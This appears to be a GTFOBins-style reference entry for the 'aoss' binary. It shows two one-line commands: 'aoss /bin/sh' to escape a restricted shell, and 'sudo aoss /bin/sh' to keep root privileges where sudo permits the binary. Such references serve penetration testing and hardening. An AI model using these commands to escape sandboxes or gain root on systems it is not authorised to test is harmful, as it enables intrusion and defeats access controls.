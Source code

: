 # GTFOBin: aoss

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
aoss /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo aoss /bin/sh
```